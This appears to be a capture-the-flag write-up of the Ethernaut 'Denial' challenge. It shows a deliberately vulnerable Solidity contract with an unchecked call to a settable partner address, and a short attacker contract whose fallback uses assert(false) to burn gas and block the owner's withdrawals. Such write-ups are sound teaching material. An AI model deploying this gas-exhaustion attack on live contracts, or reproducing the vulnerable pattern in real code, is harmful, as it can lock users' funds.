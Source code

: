 ## 20 Denial

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Denial {
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances
    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }
    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }
    // allow deposit of funds
    receive() external payable {}
    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

To solve this challenge we need to deny the owner from withdrawing the funds . This looks like [King](#9-king) but this is different because king challenge used transfer that reverts a transacion and throws error. Call only return boolean values.

But it is not relying on the return value of the ` partner.call{value:amountToSend}("");` to transfer the funds to the owner.

If we revert our contract which we pass it as partner , the owner still gets funds.

We can use assert in our contract which won't refund any gas and fails the transaction .

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
contract Denial {
    fallback() external payable {
        assert(false);
    }
}
```
